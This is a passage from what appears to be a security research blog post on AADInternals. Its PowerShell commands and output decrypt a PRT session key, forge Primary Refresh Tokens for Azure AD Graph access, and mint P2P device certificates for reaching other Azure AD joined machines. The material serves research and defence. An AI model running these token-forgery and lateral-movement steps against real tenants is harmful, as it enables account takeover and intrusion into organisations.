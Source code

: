 # Decrypt the key using the private key of transport key (tkpriv)
$decKey = [System.Security.Cryptography.RSAOAEPKeyExchangeDeformatter]::new($PrivateKey).DecryptKeyExchange($encKey)
{{< /highlight>}}

AADInternals adds the decrypted session key to **session_key** field of the JSON file before saving/returning it.
As such, we can easily pass the returned **$prtKeys** as settings when creating new PRT tokens:

{{< highlight powershell >}}
# Get the PRT keys using the device certificate
$prtKeys = Get-AADIntUserPRTKeys -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx

# Generate a new PRTToken using the PRT keys
$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GetNonce

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken -SaveToCache
{{< /highlight>}}

We can also use the generated device certificate to get **P2P certificate** for the **device** itself!

{{< highlight powershell >}}
# Get the new P2P device certificate
New-AADIntP2PDeviceCertificate -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -TenantId 4169fee0-df47-4e31-b1d7-5d248222b872 -DeviceName "mypc1.company.com"
{{< /highlight>}}
```
Device certificate successfully created:
  Subject:         "CN=d03994c9-24f8-41ba-a156-1805998d6dc7, DC=4169fee0-df47-4e31-b1d7-5d248222b872"
  DnsName:         "mypc1.company.com"
  Issuer:          "CN=MS-Organization-P2P-Access [2020]"
  Cert thumbprint: 84D7641F9BFA90767EA3456E443E21948FC425E5
  Cert file name : "d03994c9-24f8-41ba-a156-1805998d6dc7-P2P.pfx"
  CA file name :   "d03994c9-24f8-41ba-a156-1805998d6dc7-P2P-CA.der"
```

The generated certificate can be used with <a href="https://github.com/morRubin/AzureADJoinedMachinePTC" target="_blank">AzureADJoinedMachine</a> by @rubin_mor
to access other Azure AD joined machines.

# PRT and MFA claims
